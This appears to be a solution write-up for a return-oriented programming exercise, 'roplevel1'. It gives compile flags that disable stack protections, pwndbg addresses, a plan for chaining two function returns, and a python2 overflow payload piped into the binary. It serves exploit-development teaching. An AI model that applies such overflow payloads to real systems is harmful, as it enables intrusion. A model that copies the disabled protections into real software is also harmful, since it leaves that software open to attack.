 How to compile binary:

`gcc roplevel1.c -o roplevel1 -fno-stack-protector -z execstack -m32 -no-pie -Wl,-z,norelro -mpreferred-stack-boundary=2`

Analysis:

```
pwndbg> x secret
0x80491bb <secret>:	0x53e58955
pwndbg> x change
0x8049186 <change>:	0x53e58955
```

Methodolody:

Chain change() and secret() one after the other such that when the main function finishes is returning, it will return to the change function. WHen the change function finishes and is returning, it returns to the secret() function.

Answer:

`python2 -c "print('A' * 20 + '\x86\x91\x04\x08\xbb\x91\x04\x08' + 'B'*20)" | ./roplevel1`

- you have python2 and python3 installed on your system, make sure to run the exploit with python2 as python2 and python3 interpret byte strings `"\x$$"` differently as seen [here](https://stackoverflow.com/questions/60660568/overflowed-bytes-different-than-those-i-see-on-gdb)

- To ensure that the binaries are compiled and are functioning as close to what the author intended, use [checksec.rs](https://github.com/etke/checksec.rs) on the Mach-O executables (original ones) and [checksec.sh](https://github.com/slimm609/checksec.sh) on your elf executables and ensure that the security properties of both executables are as similar as possible